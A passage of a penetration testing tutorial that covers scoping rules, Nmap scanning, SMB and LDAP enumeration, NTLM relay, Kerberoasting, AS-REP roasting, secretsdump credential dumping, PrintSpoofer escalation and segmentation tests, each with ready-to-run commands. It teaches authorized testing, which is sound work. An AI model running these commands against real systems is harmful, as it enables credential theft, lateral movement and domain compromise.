| **137-139**| UDP/TCP | **NetBIOS** | NetBIOS Name Service (NBNS) poisoning with Responder, null session enumeration (`nbtscan`). |
| **143** | TCP | **IMAP** | Cleartext email credentials, brute-forcing. |
| **161/162**| UDP | **SNMP** | Default community strings (`public`/`private`), information disclosure (running processes, software versions, routing tables, network users). |
| **389/636**| TCP | **LDAP/LDAPS** | Anonymous LDAP binding, AD object extraction (users, computers, groups, trusts, descriptions), BloodHound data ingest. |
| **443** | TCP | **HTTPS** | Web application testing, SSL/TLS certificate info leaks, deprecated ciphers, heartbleed. |
| **445** | TCP | **SMB** | Anonymous/Null shares, SMB signing not required (NTLM Relay), EternalBlue (MS17-010), PrintNightmare, PsExec lateral movement. |
| **464** | TCP/UDP | **Kpasswd** | Kerberos password change service; Active Directory password modification abuse. |
| **514** | UDP | **Syslog** | Cleartext log transmission, log injection, unauthenticated log monitoring. |
| **1433** | TCP | **MS-SQL** | Default `sa` account passwords, SQL injection, `xp_cmdshell` OS command execution, database link traversal. |
| **1521** | TCP | **Oracle DB** | Default SID discovery (`oracmd`), default credentials (`SYS`, `SYSTEM`, `SCOTT`), PL/SQL injection, TNS listener vulnerabilities. |
| **2049** | TCP/UDP | **NFS** | Unauthenticated NFS exports (`showmount -e`), `no_root_squash` misconfiguration allowing root privilege escalation on mounted shares. |
| **2375/2376**| TCP | **Docker API** | Unauthenticated Docker daemon API (`2375` unencrypted, `2376` TLS). Direct host root compromise by spawning container with host root filesystem mounted. |
| **3306** | TCP | **MySQL** | Default `root` without password, remote database access, SQLi data exfiltration, UDF exploitation for RCE. |
| **3389** | TCP | **RDP** | BlueKeep (CVE-2019-0708), password spraying, session hijacking with `tscon`, CredSSP vulnerabilities. |
| **5432** | TCP | **PostgreSQL**| Default `postgres` superuser credentials, remote execution via `COPY ... TO PROGRAM` or custom shared libraries. |
| **5900** | TCP | **VNC** | Unauthenticated VNC consoles, weak VNC passwords (truncated to 8 characters), screen sniffing. |
| **5985/5986**| TCP | **WinRM** | Windows Remote Management (HTTP/HTTPS); PowerShell remoting, lateral movement with `evil-winrm`, Pass-the-Hash. |
| **6379** | TCP | **Redis** | Unauthenticated Redis key-value store; arbitrary SSH key writing to `/root/.ssh/authorized_keys`, crontab injection, web shell writing. |
| **6443** | TCP | **Kubernetes API**| Misconfigured anonymous kubelet access (`--anonymous-auth=true`), cluster takeover, privilege escalation. |
| **8080/8443**| TCP | **HTTP-Alt** | Apache Tomcat manager console with default creds (`tomcat:s3cret`), Jenkins unauthenticated script console RCE, proxy endpoints. |
| **9200/9300**| TCP | **Elasticsearch**| Unauthenticated REST API exposing entire enterprise log databases, index deletion, RCE via dynamic scripting CVEs. |
| **27017** | TCP | **MongoDB** | Unauthenticated NoSQL databases, sensitive data extraction, database tampering. |

---

## 8. Professional Network Penetration Testing Methodology

Network Penetration Testing follows a rigorous, repeatable, 16-phase lifecycle designed to safely discover, validate, and document risk:



---

## 9. Rules of Engagement & Pre-Engagement Authorization

Before typing a single scan command, a professional penetration tester must establish formal legal authorization.

### 9.1 Essential Legal & Scoping Documentation

1. **Non-Disclosure Agreement (NDA):** Protects proprietary business data and vulnerability details discovered during the test.
2. **Master Services Agreement (MSA) & Statement of Work (SOW):** Details contractual terms, test duration, costs, and high-level engagement scope.
3. **Rules of Engagement (RoE) Document:** The core operational technical contract specifying exact operational rules.

### 9.2 Key Parameters Defined in the Rules of Engagement

- **Explicit In-Scope Targets:** IP addresses, CIDR ranges (`10.100.0.0/16`), domain names (`corp.local`), and physical sites.
- **Explicit Out-of-Scope Targets:** Third-party cloud systems, partner connections, production SCADA/ICS medical equipment, specific executive workstations, and critical payment gateways.
- **Authorized Testing Windows:** E.g., Weekdays 20:00 - 04:00 UTC (off-peak) or 24/7.
- **Authorized Source IPs:** The specific static public/internal IP addresses used by the penetration testing team (whitelisted in internal SIEMs/firewalls to avoid team confusion).
- **Technique Restrictions:**
  - Explicit prohibition of Denial of Service (DoS / DDoS) testing.
  - Social engineering / phishing permitted or prohibited.
  - Physical facility security testing permitted or prohibited.
  - Credential brute-force lockout thresholds (e.g., maximum 2 password attempts per account per 30 minutes to prevent AD account lockouts).
- **Emergency Escalation Contacts & "Stop Testing" Triggers:** Primary and secondary technical contacts (CISO, SOC Lead, Infrastructure Director) reachable 24/7 if a server crashes, data corruption is suspected, or an ongoing real-world breach is discovered.
- **Evidence Handling & PII Redaction:** Encryption standards (e.g., VeraCrypt / GPG AES-256) for storing test data, artifacts, and customer credentials.

---

## 10. Reconnaissance: Passive & Active OSINT

Reconnaissance is the structured gathering of intelligence about the target organization without and with active target interaction.



### 10.1 Passive OSINT Techniques & Commands

```bash
# 1. Discover Organization ASN (Autonomous System Number) & IP Ranges
whois -h whois.radb.net -- '-i origin AS15169' | grep -Eo "([0-9.]+){4}/[0-9]+"

# 2. Certificate Transparency Log Query for Subdomains (crt.sh)
curl -s "https://crt.sh/?q=%.example.com&output=json" | jq -r '.[].name_value' | sort -u

# 3. Passive DNS Subdomain Enumeration with Amass
amass enum -passive -d example.com -o subdomains.txt

# 4. Search Internet Scanners (Shodan CLI)
shodan search "org:'Target Corporation' port:445,3389,8080"
```

---

## 11. Host Discovery & Network Live Sweeping

Host discovery identifies which IP addresses within a defined scope have active, responsive hosts before spending hours running full port scans across empty space.

### 11.1 Why Standard ICMP Echo (Ping) Often Fails

Many modern Windows endpoints and enterprise firewalls explicitly drop inbound ICMP Echo Requests (`Type 8`) by default (via Windows Defender Firewall). A host that drops ping is **not dead**; it simply ignores ICMP. Professional discovery uses **multi-protocol probing** (ARP on local subnets; TCP SYN, TCP ACK, and UDP probes across routed networks).

### 11.2 Host Discovery Strategies & Nmap Command Breakdown

```bash
# Technique 1: Local Subnet Discovery (ARP Sweeping - Most Reliable on L2)
sudo nmap -sn -PR 192.168.1.0/24
# -sn: Disable port scanning (Host discovery only)
# -PR: Force ARP ping (bypasses all host-level firewalls on same L2 broadcast domain)

# Technique 2: Routed Network Discovery (TCP SYN + TCP ACK + ICMP Multi-Probe)
sudo nmap -sn -PE -PS21,22,80,443,445,3389 -PA80,443,3389 10.10.10.0/24
# -PE: Send ICMP Echo Request
# -PS<ports>: Send TCP SYN packets to common listening ports (SYN-ACK or RST = Host is alive)
# -PA<ports>: Send TCP ACK packets (RST = Host is alive; penetrates stateless firewalls)

# Technique 3: UDP Ping Sweep (Uncommon services)
sudo nmap -sn -PU53,161,500 10.10.10.0/24
# -PU: Send empty UDP packets; ICMP Port Unreachable response proves host is alive
```

---

## 12. Port Scanning & Advanced Nmap Techniques

Port scanning identifies which layer 4 TCP and UDP ports are accessible on the target host.

### 12.1 Nmap Port States Demystified



### 12.2 Scan Types Comparison

| Scan Type | Nmap Flag | How It Works Technically | Privileges Required | Stealth & Firewall Characteristics |
| :--- | :--- | :--- | :--- | :--- |
| **TCP SYN Scan (Stealth)** | `-sS` | Sends SYN; receives SYN-ACK; immediately sends **RST** to tear down connection before completion. | Requires `root` / `sudo` | Never completes full 3-way handshake. Less likely to be logged by basic application servers. |
| **TCP Connect Scan** | `-sT` | Completes full 3-way handshake (`SYN` -> `SYN-ACK` -> `ACK`) using OS `connect()` API. | Non-root users | Generates application-level connection logs; easily detected by IDS. |
| **UDP Scan** | `-sU` | Sends empty UDP packets. If ICMP Port Unreachable returns -> Closed. If UDP response returns -> Open. If no response -> Open\|Filtered. | Requires `root` / `sudo` | Slow due to OS ICMP rate limiting. Crucial for DNS (53), SNMP (161), TFTP (69). |
| **TCP ACK Scan** | `-sA` | Sends ACK packets with random sequence numbers. | Requires `root` / `sudo` | Used for **firewall rule mapping**. Unfiltered ports return RST; filtered ports drop packet. |
| **FIN / Null / Xmas Scan**| `-sF`, `-sN`, `-sX`| Explores RFC 793 subtleties (sending FIN, no flags, or FIN+PSH+URG). Closed ports return RST; open ports drop. | Requires `root` / `sudo` | Bypasses simple stateless non-stateful packet filters. Does not work against Windows hosts. |

### 12.3 Professional Nmap Scanning Workflow (Authorized Lab / Engagement)

```bash
# Step 1: Fast Initial Discovery of All 65,535 TCP Ports
sudo nmap -p- --min-rate 1000 -T4 -n -Pn 10.10.10.50 -oA initial_full_tcp
# -p-: Scan all 65,535 TCP ports
# --min-rate 1000: Send minimum 1,000 packets/sec (speeds up scan significantly)
# -T4: Aggressive timing template (optimizes timeouts for local/lab networks)
# -n: Disable reverse DNS resolution (prevents slowdowns)
# -Pn: Skip host discovery (treat host as alive)
# -oA initial_full_tcp: Save output in all 3 formats (Nmap, Grepable, XML)

# Step 2: Comprehensive Targeted Service Version & Script Scan on Discovered Ports
sudo nmap -p 22,80,445,3389 -sC -sV -O --version-all 10.10.10.50 -oA detailed_service_scan
# -p <ports>: Target only verified open ports discovered in Step 1
# -sC: Execute default set of safe Nmap Scripting Engine (NSE) scripts
# -sV: Probe open ports to determine exact service name and version
# -O: Enable OS detection based on TCP/IP stack fingerprinting
# --version-all: Perform intense version probing for maximum banner extraction

# Step 3: Targeted Top-100 UDP Port Scan
sudo nmap -sU --top-ports 100 -sV 10.10.10.50 -oA top_udp_scan
```

---

## 13. Service Enumeration & Banner Grabbing

> **The Golden Rule of Enumeration:**  
> Port scanning tells you what doors exist. Service enumeration tells you what is behind those doors, who built it, what version it is, and whether the lock is broken.

### 13.1 Universal Banner Grabbing Tools & Techniques

```bash
# 1. Raw Socket Banner Grabbing via Netcat
nc -nv 10.10.10.50 21
# Output: 220 ProFTPD 1.3.5 Server (Ubuntu) Ready.

# 2. SSL/TLS Certificate & Service Banner Extraction via OpenSSL
openssl s_client -connect 10.10.10.50:443 -showcerts

# 3. HTTP Header & Web Server Fingerprinting via curl
curl -I -k https://10.10.10.50
# Inspect: Server, X-Powered-By, Set-Cookie, Strict-Transport-Security
```

---

## 14. Vulnerability Assessment & Scanner Verification

### 14.1 Core Risk Terminology

- **Vulnerability:** A flaw or weakness in system design, implementation, or configuration that can be exploited by an adversary.
- **Threat:** Any circumstance or event with the potential to adversely impact an asset through unauthorized access, destruction, or disclosure.
- **Exploit:** A piece of software, script, or sequence of commands that takes advantage of a vulnerability to cause unintended behavior.
- **Risk:** The probability and impact of a threat successfully exploiting a vulnerability ($Risk = Threat \times Vulnerability \times Impact$).

### 14.2 Industry Standards: CVE, CWE, CVSS, and EPSS

```text
[CWE: Common Weakness Enumeration]  --> Architectural category (e.g., CWE-89: SQL Injection)
  ↓
[CVE: Common Vulnerabilities & Exposures] --> Specific flaw in software (e.g., CVE-2021-44228: Log4j)
  ↓
[CVSS: Common Vulnerability Scoring System] --> Severity score (0.0 - 10.0 Base Score)
  ↓
[EPSS: Exploit Prediction Scoring System] --> Probability that a CVE will be exploited in the wild (0.0% - 100.0%)
```

### 14.3 The Manual Validation Workflow

Automated vulnerability scanners (Nessus, OpenVAS, Qualys) generate frequent **false positives** (flagging vulnerabilities based solely on static banner version numbers that may have been backported with security patches by Linux distributions like Debian/RedHat).



---

## 15. Common Network Infrastructure Vulnerabilities

1. **Default & Hardcoded Credentials:** E.g., `admin:admin`, `root:toor`, `cisco:cisco`, `manager:friend` on IP cameras, managed switches, routers, and IPMI management boards.
2. **Exposed Unauthenticated Management Consoles:** Tomcat Manager, Jenkins Script Console, Redis databases, Docker API sockets listening without passwords on public or internal interfaces.
3. **Cleartext Protocols on Internal LAN:** Telnet (23), FTP (21), HTTP (80), POP3 (110), SNMPv1/v2c (161). Credentials and sensitive tokens transmitted across these protocols are immediately captured via network sniffing.
4. **Missing Security Updates & End-of-Life (EOL) Operating Systems:** Windows Server 2008/2012, Windows 7, Ubuntu 14.04 running in production containing known public remote code execution (RCE) exploits.
5. **Overly Permissive Network Segmentation:** Production database servers accessible directly from guest Wi-Fi or developer workstations.

---

## 16. SMB Enumeration, Exploitation & Relay Attacks

Server Message Block (SMB - TCP 445) is the primary protocol used in Windows environments for file sharing, printer sharing, and remote procedure call (RPC) transport.



### 16.1 Step-by-Step SMB Enumeration Commands

```bash
# 1. Check SMB Protocol Version and SMB Signing Status via NetExec (nxc)
nxc smb 10.10.10.50 --gen-relay-list smb_relay_targets.txt
# If output shows "signing:False", the host is vulnerable to NTLM Relay attacks!

# 2. Enumerate Shares with Null Session (Anonymous / No Credentials)
smbclient -N -L //10.10.10.50/
# -N: No password prompt (Null session)
# -L: List available shares

# 3. Recursively Download Exposed Share Contents
smbclient //10.10.10.50/SharedDocs -N -c "prompt OFF; recurse ON; mget *"

# 4. Comprehensive SMB Enumeration with enum4linux-ng
enum4linux-ng -A 10.10.10.50 -oA enum4linux_results
# -A: Full aggressive automated enumeration (users, groups, shares, OS, password policy, RID cycling)
```

### 16.2 SMB Signing & NTLM Relay Explained

> **Analogy:**  
> Imagine an officer signs an order with an official wax seal (**SMB Signing**). If there is no wax seal, an impostor can intercept the messenger on the road, replace the destination address with their own bank, and forward the request.

- **Technical Mechanism:** When SMB Signing is **disabled** (or not enforced), NTLM authentication packets transmitted over the network can be captured and forwarded in real-time to another server where the victim user has administrative privileges.
- **Relay Attack Execution (Authorized Lab):**
  ```bash
  # Step 1: Generate target list of Windows hosts with SMB Signing disabled
  nxc smb 10.10.10.0/24 --gen-relay-list targets.txt

  # Step 2: Disable SMB and HTTP servers in Responder configuration
  # Edit /etc/responder/Responder.conf -> Set SMB = Off, HTTP = Off

  # Step 3: Start Responder to poison LLMNR/NBT-NS queries
  sudo responder -I eth0 -dwv

  # Step 4: Run ntlmrelayx to capture authentications and execute SAM dump on targets
  sudo ntlmrelayx.py -tf targets.txt -smb2support -socks
  ```

---

## 17. Windows RPC, MSRPC & NetBIOS Enumeration

- **MSRPC (TCP 135):** Microsoft Remote Procedure Call Endpoint Mapper allows client programs to communicate with services running on remote Windows servers without knowing their dynamic port assignments.
- **NetBIOS (Ports 137-139):** Network Basic Input/Output System allows applications on separate computers to communicate over a local area network.

### 17.1 RPC Enumeration & RID Cycling

```bash
# 1. Dump RPC Endpoints with rpcdump.py
rpcdump.py 10.10.10.50

# 2. Interactive RPC Client Enumeration (Null Session)
rpcclient -U "" -N 10.10.10.50
# Inside rpcclient prompt:
# > enumdomusers           (Enumerate all domain users)
# > enumdomgroups          (Enumerate all domain groups)
# > queryuser <username>   (Get detailed user information)
# > querygroupmem 512      (List members of Domain Admins group - RID 512)

# 3. Automated RID Cycling via NetExec (Discovers usernames even if enumdomusers is blocked)
nxc smb 10.10.10.50 -u 'Guest' -p '' --rid-cycling 500-1100
```

---

## 18. LDAP & Directory Services Enumeration

Lightweight Directory Access Protocol (LDAP - TCP 389, LDAPS - TCP 636) is the query language and protocol used by clients and servers to read and modify Active Directory objects.

```bash
# 1. Test for Anonymous LDAP Binding (No Credentials)
ldapsearch -x -H ldap://10.10.10.5 -b "DC=corp,DC=local" "(objectClass=user)" sAMAccountName

# 2. Authenticated Domain User Extraction with ldapsearch
ldapsearch -x -H ldap://10.10.10.5 -D "alice@corp.local" -w "Password123!" \
  -b "DC=corp,DC=local" "(&(objectCategory=person)(objectClass=user))" \
  sAMAccountName userPrincipalName servicePrincipalName description
```

---

## 19. Kerberos Authentication & Kerberos Attacks

Kerberos is the default network authentication protocol in Windows Active Directory domains. It relies on a trusted third party—the **Key Distribution Center (KDC)** running on the Domain Controller—to issue encrypted **Tickets** rather than transmitting raw passwords across the network.

### 19.1 The Kerberos Authentication Flow



### 19.2 Kerberoasting Deep Dive

> **Analogy:**  
> A movie theater sells passes. To enter the VIP theater room, the ticket counter issues a sealed envelope encrypted with the VIP room manager's secret key. Anyone with a basic valid entrance ticket can ask for this VIP envelope. An attacker takes the envelope home and uses brute-force cracking tools to discover the manager's secret key!

- **Prerequisites:** Any valid, low-privilege domain user credentials.
- **Why it Works:** Any authenticated domain user can request a TGS service ticket for any Service Principal Name (SPN) registered in the domain. The TGS ticket is encrypted with the NTLM hash of the service account associated with that SPN. The attacker requests the ticket, extracts it from memory, and cracks it **offline** without generating failed login attempts on the Domain Controller.

```bash
# Step 1: Request Kerberos TGS Tickets for all SPNs and output in Hashcat format
GetUserSPNs.py corp.local/alice:Password123! -dc-ip 10.10.10.5 -request -outputfile kerberoast_hashes.txt

# Step 2: Crack Hashes Offline with Hashcat (Mode 13100 = Kerberos 5 TGS-REP etype 23)
hashcat -m 13100 kerberoast_hashes.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```

### 19.3 AS-REP Roasting

- **Prerequisites:** A domain user account configured with the Active Directory attribute `DONT_REQ_PREAUTH` (Do not require Kerberos preauthentication).
- **Why it Works:** If preauthentication is disabled, any network attacker can send an AS-REQ query for that username without knowing their password. The KDC immediately returns an AS-REP packet containing encrypted data that can be cracked offline.

```bash
# Enumerate all domain users with preauth disabled and extract hashes
GetNPUsers.py corp.local/ -usersfile users.txt -dc-ip 10.10.10.5 -no-pass -format hashcat -outputfile asrep_hashes.txt

# Crack with Hashcat (Mode 18200 = Kerberos 5 AS-REP etype 23)
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt
```

---

## 20. Active Directory Architecture & Attack Vectors

Active Directory (AD) is a directory service developed by Microsoft for Windows domain networks. It manages identity, centralized authentication, access control policies, and system configurations.



### 20.1 Automated Active Directory Graph Analysis with BloodHound

BloodHound uses graph theory to reveal hidden, non-obvious relationships and attack paths to Domain Admin (e.g., Alice has `GenericAll` over Group B -> Group B members have `WriteDacl` over DC01 -> Domain Takeover).

```bash
# 1. Ingest Active Directory Data using Python Ingestor
bloodhound-python -u 'alice' -p 'Password123!' -d corp.local -dc dc01.corp.local -c All --zip

# 2. Launch Neo4j Database and BloodHound GUI
sudo neo4j start
bloodhound
# Drag and drop the generated ZIP file into the BloodHound UI!
```

---

## 21. Windows Credential Storage & Credential Dumping

Windows stores credentials and security tokens across several distinct subsystems:

| Storage Location | Subsystem / File | Formats Stored | Extraction Methods |
| :--- | :--- | :--- | :--- |
| **SAM Database** | `%SystemRoot%\System32\config\SAM` | Local user NTLM hashes (`Administrator`, `Guest`). | `secretsdump.py`, Mimikatz `lsadump::sam`, volume shadow copies. |
| **LSASS Memory** | `lsass.exe` Process Memory | Cleartext passwords (WDigest), Kerberos tickets, NTLM hashes in memory. | Mimikatz `sekurlsa::logonpasswords`, ProcDump, `comsvcs.dll` minidump. |
| **LSA Secrets** | `%SystemRoot%\System32\config\SECURITY` | Cached service account passwords, scheduled task credentials. | `secretsdump.py`, Mimikatz `lsadump::secrets`. |
| **NTDS.dit** | `%SystemRoot%\NTDS\ntds.dit` (DC only) | Every domain user & machine NTLM password hash in the enterprise. | `secretsdump.py` (DRSUAPI / VSS), `ntdsutil`. |

### 21.1 Dumping Hashes via Impacket & Secretsdump

```bash
# Dump Local SAM Database remotely using local administrator credentials
secretsdump.py Administrator:AdminPass123@10.10.10.50

# Dump entire Domain NTDS.dit from Domain Controller (Requires Domain Admin or DCSync rights)
secretsdump.py corp.local/administrator:AdminPass123@10.10.10.5 -just-dc-ntlm
```

---

## 22. Linux Host Enumeration & Privilege Escalation

When an initial shell is obtained on a Linux target (typically as a low-privilege service account like `www-data`), local privilege escalation to `root` is required.

### 22.1 Linux Enumeration Commands

```bash
# 1. Current user identity and group memberships (Look for sudo, docker, lxd, disk)
id; whoami; groups

# 2. Check Sudo permissions without knowing root password
sudo -l

# 3. Discover SUID (Set User ID) Binaries (Executes with owner permissions)
find / -perm -u=s -type f 2>/dev/null

# 4. Inspect Scheduled Cron Jobs and Timers
cat /etc/crontab; ls -la /etc/cron.*
systemctl list-timers

# 5. Check Linux Capabilities on Binaries
getcap -r / 2>/dev/null

# 6. Check Active Internal Listening Ports (Not visible from external scans)
ss -tulpn
```

---

## 23. Windows Local Privilege Escalation

When access is obtained on a Windows endpoint as a standard local or domain user, local privilege escalation to `NT AUTHORITY\SYSTEM` is required.

### 23.1 Key Windows PrivEsc Vectors

1. **Unquoted Service Paths:** Service path containing spaces without quotes (`C:\Program Files\Vendor App\service.exe`). Windows executes `C:\Program.exe` or `C:\Program Files\Vendor.exe` if writable.
2. **Weak Service Permissions:** Non-administrative user has permission to modify service binary path (`binpath`) using `sc config`.
3. **AlwaysInstallElevated Registry Key:** If `AlwaysInstallElevated` is set to `1` in both `HKCU` and `HKLM`, any standard user can install an MSI package executed as `SYSTEM`.
4. **Token Impersonation (SeImpersonatePrivilege):** Common on IIS and MSSQL service accounts (`NETWORK SERVICE`, `LOCAL SERVICE`). Exploited using Potato family tools (**JuicyPotato**, **PrintSpoofer**, **GodPotato**) to spawn a SYSTEM shell.

```bash
# Execute PrintSpoofer to elevate from SeImpersonatePrivilege to SYSTEM
PrintSpoofer64.exe -i -c "cmd.exe"
```

---

## 24. Network Segmentation & Firewall Rule Validation

Network segmentation partitions a corporate network into isolated subnet security zones to prevent lateral movement and isolate sensitive databases from general workstations.



### 24.1 How Pentesters Test Network Segmentation Safely

The pentester sits in a restricted zone (e.g., Guest Wi-Fi `172.20.0.0/24`) and attempts to communicate directly with protected zones (`10.0.0.0/8`, `192.168.0.0/16`):

```bash
# 1. Fast Segmentation Validation Sweep (Top Ports across internal enterprise ranges)
sudo nmap -Pn -sS -p 22,80,443,445,1433,3389,8080 -iL internal_subnets.txt -oA segmentation_test

# 2. Egress Traffic Testing (Identify which outbound ports penetrate corporate perimeter)
# Run listener on external server: nc -lvnp 443
# From internal target: nc -nv <external_ip> 443
```

---

## 25. VPN & Remote Access Infrastructure Testing

### 25.1 IPsec VPN Testing with ike-scan

```bash
# 1. Discover Active IPsec VPN Gateways (IKE Aggressive Mode)
sudo ike-scan -M -A -P 198.51.100.1

# 2. Extract Pre-Shared Key (PSK) Hash for Offline Cracking
sudo ike-scan -M -A -P --pskexport=ike_psk.txt 198.51.100.1
# Crack with Hashcat: hashcat -m 5400 ike_psk.txt /usr/share/wordlists/rockyou.txt
```

---

## 26. SNMP & DNS Security Testing

*(Detailed command breakdown and MIB walk scripts provided in Section 6).*

---

## 27. Wireless Network Penetration Testing

Wireless networks (IEEE 802.11) expand the physical network boundary beyond the building walls into streets and parking lots.

### 27.1 WPA2 4-Way Handshake Capture & Cracking

